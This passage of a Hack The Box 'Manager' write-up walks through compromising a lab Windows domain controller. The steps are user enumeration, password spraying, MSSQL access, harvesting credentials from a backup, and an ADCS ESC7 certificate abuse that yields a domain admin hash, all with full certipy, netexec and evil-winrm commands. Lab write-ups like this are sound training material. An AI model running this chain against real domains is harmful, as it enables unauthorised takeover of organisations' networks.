

nice we got the DN of the domain now we’ll use it as a Base to perform search on the domain

```bash
ldapsearch -H ldap://10.10.11.236 -x -b "DC=manager,DC=htb"
```



no luck here as well

### Port 88/Kerberos

As we know it is the Domain Controller machine, we can use kerbrute to enumerate valid users via kerbrute

```bash
kerbrute userenum --dc dc01.manager.htb -d manager.htb /usr/share/wordlists/seclists/Usernames/Names/names.txt
```



and bingo we got the 3 valid user names, i tried to found any AS_REP roastable users tried, password spraying but none of them are working

let’s try to enumerate user’s via RID cycling as the Null session allowed on the machine

```bash
sudo nxc smb 10.10.11.236 -u 'anonymous' -p '' --rid-brute 1500
```



nice we got the users let’s create username list

now i want to just pass the username as password to service i used netexec with `--no-brute` option

```bash
	sudo nxc smb 10.10.11.236 -u users.txt -p users.txt --no-brute
```



nice we found the valid credential for the operator user as we don’t have any interesting share to look into i move with mssql

```bash
sudo nxc mssql 10.10.11.236 -u operator -p operator
```



and yes it’s valid credential for the MSSQL service

let’s connect to MSSQL as operator

```bash
impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth
```



after getting access i tried to enable xp_cmdshell, as we’re in impacket-mssqlclient we can use `enable_xp_cmdshell, then i noticed we can actually run xp_dirtree

i found interesting backup file in web root directory



i downloaded zip file using wget

```bash
wget http://10.10.11.236/website-backup-27-07-23-old.zip
```

and then unzipped it i found interesting hidden conf file



and i found the credentials of the raven user



let’s check if we can login using evil-winrm as raven

```bash
sudo nxc winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



let’s now login using evil-winrm

```bash
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



while examining the nmap output i found that it is using the AD CS service as i found CA - manager-DC01-CA let’s confirm it via netexec

```bash
sudo netexec ldap 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
```



so we confirmed that the DC is the Enrollment server, so i used certipy-ad to enumerate certificate templates and see if there’s any vulnerabilities related to it

```bash
certipy-ad find -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



let’s check the output txt file



we can see that there’s an ESC7 vulnerability and we can see that the ManageCA permissions 

### Overview of ESC7 Vulnerability

**ESC7** is a privilege escalation attack vector against Active Directory Certificate Services (ADCS) that arises from insecure access control on a Certificate Authority (CA). Specifically, it targets cases where powerful CA-level permissions are mistakenly granted to unprivileged or low-privileged accounts, such as:

- **ManageCA**
- **Manage Certificates**

and we can confirmed it with our result

i found good writeup on it by HackingArticles → https://www.hackingarticles.in/adcs-esc7-vulnerable-certificate-authority-access-control/

We now leverage the ManageCA permission to assign the same user as a Certificate Officer

```bash
certipy-ad ca -ca manager-DC01-CA -add-officer raven -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



now next step is to create vulnerable template subCA

```bash
certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -enable-template SubCA
```



now let’s check if the template has successfully enabled or not

```bash
certipy-ad find -dc-ip 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123' -enabled
```



let’s read the output txt file



This confirms that we have enabled and exploited dangerous EKUs.

let’s proceed with requesting certificate for the administrator user

```bash
certipy-ad req -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -templatesubCA -upn administrator@manager.htb
```



we can see that request is failed, now we need to approve the certificate for that we need request ID so note that and make sure to save private key

now issue the certificate for Request ID 20

```bash
certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -issue-request 20
```



> ***if you get permission denied error, add user to officer again, as there’s clean-up scripts is running resetting the permissions***
> 

now request certificate for the request ID 20, this time we’ll get this as it is issued by office (US)

```bash
certipy-ad req -dc-ip 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -template subCA -retrieve 20
```



now use the pfx file to get NTLM hash for the administrator user

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```



Oh Ah! we got KRB_AP_ERR_SKEW(Clock skew too great) error, to fix this we need to sync our timezonne with the Domain Controller

```bash
sudo ntpdate 10.10.11.236
```



nice, now request the NTLM hash again with the same command we’ve used previously

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```



and Bingo this time we got the NTLM hash for the administrator user

let’s check it using netexec

```bash
sudo nxc winrm 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```



Pwn3d!! means we are Domain Admin let’s use evil-winrm to login as administrator

```bash
evil-winrm -i 10.10.11.236 -u administrator -H ae5064c2f62317332c88629e025924ef
```

